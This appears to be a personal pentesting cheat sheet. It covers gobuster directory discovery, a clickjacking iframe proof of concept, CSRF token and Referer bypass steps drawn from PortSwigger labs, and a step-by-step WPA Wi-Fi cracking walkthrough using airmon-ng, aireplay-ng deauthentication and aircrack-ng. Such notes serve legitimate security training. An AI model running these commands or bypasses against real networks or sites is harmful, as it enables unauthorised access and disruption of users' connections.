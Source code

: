 # CIA
	Integrity : data only change by auth.
	Avalability : Avalable data when user need.
	Confidentility : Data access by auth.
  
# Containt Discover
	gobuster -u http://fakebank.com -w wordlist.txt dir 
	
# ClickJacking
	https://numberless-holddown.000webhostapp.com/clickjacking.php?url={url with https or http}
	or
	<!DOCTYPE html>
	<html lang="en">
	<head>
	  <meta charset="UTF-8">
	</head>
	<body>
	  <iframe src="{url}" frameborder="0"></iframe>
	</body>
	</html>

# CSRF
## CSRF parameter is not available
---> generate CSRF POC and try

## CSRF parameter available 

-> Change action METHOD (GET OR POST)

-> Remove CSRF parameter
eg. email and CSRF
remove CSRF
now> email

-> enter own CSRF taken and send to victim (CSRF token one time use so, create fresh token everytime after use. For testing use inco mode. for more read paragraph.)



1)  Open Burp's browser and log in to your account. Submit the "Update email" form, and intercept the resulting request.
    Make a note of the value of the CSRF token, then drop the request.
2) Open a private/incognito browser window, log in to your other account, and send the update email request into Burp Repeater.
3) Observe that if you swap the CSRF token with the value from the other account, then the request is accepted.
4) Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab. Note that the CSRF tokens are single-use, so you'll need to include a fresh one.
    Store the exploit, then click "Deliver to victim" to solve the lab.


->if CSRF key cookies and CSRF token are available

https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie 

->if header error occure
1) so try remove header
https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present

2) if header remove not work try changing domain like
refrer: http://google.com
to
http://burpsuit/?google.com
https://portswigger.net/web-security/csrf/lab-referer-validation-broken



# Wifi Password Hacking
	

Step 1:

Put your wireles lan card on monitor mode

 airmon-ng start "wireless lan card name"
=> airmon-ng start wlan0

Step 2:

Capture Traffic with Airodump-ng

airodump-ng "wireless lan card monitor mode"

=> airodump-ng wlan0mon


Step 3:

Focus airodump-ng on one AP on One Channel

 airodump-ng --bssid dummy -c dummy --write WPAcrack wlan0mon

=> airodump-ng --bssid 8C:FD:18:88:79:68 -c 9 --write WPAcrack wlan0mon


Step 4:

in order to capture the encrypted password we need to have the client authenticate against AP.
we do deauth signal to client

 aireplay-ng --deauth 1000 -a bssid wlan0mon

=> aireplay-ng --deauth 1000 -a 8C:FD:18:88:79:68 wlan0mon


Step 5:

Now we have to crack the dump file with aircrack-ng

 aircrack-ng WPAcrack-01.cap -w (localtion of wordlist)
